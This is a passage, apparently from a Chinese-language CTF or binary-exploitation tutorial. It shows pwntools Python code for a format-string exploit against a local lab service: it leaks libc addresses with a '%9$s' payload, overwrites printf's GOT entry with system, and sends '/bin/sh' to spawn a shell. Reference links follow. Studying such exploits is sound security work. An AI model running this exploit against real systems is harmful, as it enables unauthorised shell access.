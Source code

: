 ```python
system_addr = printf_addr - (offset_printf - offset_system)

## method 2
def leak(addr):
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(addr)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:-4] + "\x00"
    log.info("leaking: 0x%x --> %s" % (addr, data.encode('hex')))
    p.close()
    return data
# data = DynELF(leak, 0x08048490)     # Entry point address
# system_addr = data.lookup('system', 'libc')
# printf_addr = data.lookup('printf', 'libc')
# log.info("system address: 0x%x" % system_addr)
# log.info("printf address: 0x%x" % printf_addr)

## get shell
payload = fmtstr_payload(7, {printf_got: system_addr})
p = remote('127.0.1.1', '10001')
p.recvline()
p.sendline(payload)
p.recv()
p.sendline('/bin/sh')
p.interactive()
```


## 参考资料
- [Linux系统下格式化字符串利用研究](https://paper.seebug.org/246/)
- [33C3 CTF 2016 -- ESPR](http://bruce30262.logdown.com/posts/1255979-33c3-ctf-2016-espr)

